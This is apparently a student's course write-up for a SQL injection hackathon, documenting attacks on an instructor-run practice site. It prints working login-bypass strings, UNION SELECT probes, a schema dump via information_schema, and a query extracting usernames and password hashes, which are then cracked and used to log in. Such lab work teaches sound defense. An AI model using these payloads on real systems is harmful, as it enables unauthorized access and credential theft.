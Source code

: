 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Bheemreddy Vikhyath Reddy

**Email**: bheemrvy@mail.uc.edu

![Vikhyath's headshot](images/headshot.jpg)

## Repository Information

Respository's URL: [https://github.com/Vikhyath-Reddy/waph-bheemrvy](https://github.com/Vikhyath-Reddy/waph-bheemrvy)

# Hackathon 2 - SQL Injection Attacks

## overview

This hackathon aims to teach participants how to recognize and exploit SQL injection vulnerabilities in a simulated web application environment. The goal is to comprehend the causes of SQL injection vulnerabilities and master ethical hacking methods to mitigate these risks in real-world situations. By participating in this hackathon, I gained valuable skills in identifying and exploiting SQL injection attacks, making them more effective at securing web applications.

Here is the link to the Github repository
[https://github.com/Vikhyath-Reddy/waph-bheemrvy/tree/main/Hackthons/Hackthon2](https://github.com/Vikhyath-Reddy/waph-bheemrvy/tree/main/Hackthons/Hackthon2).

## Level 0

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level0`

SQL Injection:

```sql
bheemrvy' or 1=1;#
```

A malicious code allows unauthorized access to a system through SQL injection. When a user types 'bheemrvy' as the username and adds a single quote followed by '1=1', the system interprets it as the end of the username and always considers the login check as successful, bypassing the usual login procedure. The '#' symbol in the code acts as a comment, ignoring any additional characters or commands that might have followed, making the system vulnerable to unauthorized access.

![Level-0](images/fig1.jpg)

## Level 1

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level1`

SQL Injection:

```sql
bheemrvy" or 1=1 LIMIT 1;#
```

To handle single quote issues, I've used double quotes in the SQL code. Also, to avoid fetching all rows and causing issues with the following logic, I've added the LIMIT keyword to fetch only one row. The condition '1=1' always holds true, and '#' separates the SQL query sections. This method effectively exploits system vulnerabilities.

Guessin SQL string in back-end:

```sql
$sql = " SELECT * FROM users WHERE username = "$username" AND password=md5("$password")";
$result = $mysqli->query($sql);
if($result->num_rows==1)
return TRUE;
return FALSE;
```

![Level-1](images/fig2.jpg)

## Level 2

URL : `http://waph-hackathon.eastus.cloudapp.azure.com/sqli/level2`

### a. Detecting SQLi Vulnerabilities

While examining the login pages' security, I tested various inputs on the products.php page. I noticed odd responses, like a fatal error with the ID 'bheemrvy'. When I used data within double quotes, no response was returned. These anomalies suggest inadequate validation of input, possibly leaving the webpage vulnerable to SQL injection attacks. The attached screenshot demonstrates these tests and their outcomes based on input.

![SQL Vulnerabilities](images/fig3.jpg)

### b. Exploiting SQLi to Access Data

#### Identify the number of columns

SQL injections employ Union and Select statements to inject data into database tables. Trial and error methods are used to determine the number of columns. Initially assuming there were four columns, an error occurred.


    SQL Injection:

    ```sql
    id=1 UNION SELECT "1", "2", "3", "4";
    ```

    ![Trying four columns](images/fig4.jpg)

Experimentation revealed that the structure actually has three columns. When inputting data for three columns, the webpage correctly displayed the provided numbers in the table.


    SQL Injection:

    ```sql
    id=1 UNION SELECT "first column", "second column", "third column";
    ```

    ![Identifying the correct columns](images/fig5.jpg)

#### Display your Information

SQL Injection:

```sql
id=1 UNION SELECT "bheemrvy", "Bheemreddy Vikhyath Reddy", "WAPH-003";
```

![Display Information](images/fig6.jpg)

#### Display the Database Schema

The SQL injection technique utilizes a UNION SELECT method to gather information, specifically targeting the first column where usernames are typically stored. A significant snippet of code, "table_name, column_name from information_schema.columns," retrieves data from the information_schema.columns, which stores comprehensive details about table columns. This approach enables the compilation of a list of column names and essential metadata, such as tables and columns, facilitating further exploitation attempts.

SQL Injection:

```SQL
id=1 UNION SELECT "bheemrvy",table_name,column_name FROM information_schema.columns;
```

![Display Database Schema](images/fig7.jpg)

#### Display Login Credentials

- From the list of table names, it was discovered that the "login" table houses both login names and passwords.
- The columns in this table are identified as "loginname" and "password."

```SQL
id=1 UNION SELECT "bheemrvy",loginname,password FROM login
```

![Display Login Credentials](images/fig8.jpg)

**Reveal Login hashed password values**

Using `https://10015.io/tools/md5-encrypt-decrypt` website I hashed the Login password values for both admin and test as shown below

![Password Decrypt of admin](images/fig9.jpg)

![Password Decrypt of test](images/fig10.jpg)

### c. Login with Stolen Credentials
    
![User Login of admin](images/fig11.jpg)

![User Login of test](images/fig12.jpg)












